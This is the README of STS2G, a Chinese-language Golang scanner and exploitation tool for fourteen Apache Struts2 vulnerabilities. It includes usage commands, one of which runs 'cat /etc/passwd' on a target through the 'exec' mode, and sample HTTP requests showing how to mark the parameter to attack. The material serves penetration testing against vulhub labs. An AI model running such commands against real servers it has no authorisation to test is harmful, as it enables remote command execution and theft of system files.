



# STS2G
Struts2漏洞测试-Golang版，部分POC参考了众多优秀项目如[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)，漏洞测试环境采用[vulhub](https://github.com/vulhub/vulhub/tree/master/struts2).  
目前两种模式`scan`和`exec`支持：  
*struts2-001*  、*struts2-005*  、*struts2-007*  、*struts2-008*  、*struts2-009*  、*struts2-012*  、*struts2-013*  、*struts2-015*  、*struts2-016*  、*struts2-045*  、*struts2-046*  、*struts2-048*  、*struts2-053*  、*struts2-057*  
## 使用方法  
```
...\STS2G-master>go build

D:\Struts2-Test>ST2SG.exe -h
NAME:
   ST2SG - Struts2 Scanner Written in Golang

USAGE:
   ST2SG --url http://xxxxxxx.com/test.action --vn 15 --mode scan

AUTHOR:
   x51

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --mode value  Specify work mode
   --vn value    Vulnerability number (default: 0)
   --url value   Set target url
   --cmd value   Exec command(Only works on mode exec.)
   --data value  Specific vulnerability packets
   --help, -h    show help (default: false)
```
  
### 默认扫描模式(不建议):  
```ST2SG --url http://xxx.com/index.action --mode scan```  
### 指定漏洞扫描模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode scan```  
### 命令执行模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode exec --cmd "cat /etc/passwd"```  
### 自定义参数：  
*基于以上方法，分两种情况，自定义GET参数名，和自定义POST数据包内容，POST方式需要在数据包中指定一下要测试的参数并用fuckit标记出来.*  
#### POST  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 007 --data "name=fuckit&pass=qwer"```  
以Struts2-001为例，登录请求包如下：  
```
POST /login.action HTTP/1.1
Host: 192.168.123.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.123.128:8080
Connection: close
Referer: http://192.168.123.128:8080/
Cookie: JSESSIONID=51B574E47166823D7622CA583D71954E
Upgrade-Insecure-Requests: 1

username=aaa&password=bbb
```  
  
#### GET  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 009 --data "name"```  
以Struts2-009为例，GET请求如下：  
```
http://192.168.123.128:8080/ajax/example5.action?age=1&name=aaa
```  
  
## 补充  
1、强烈建议使用vn参数；  
2、自定义POC只需在utils中修改/增加为自己的即可；  
3、部分漏洞支持获取webpath，功能函数已经在各自漏洞模块中实现（func GetWebPath），可自行调用；  
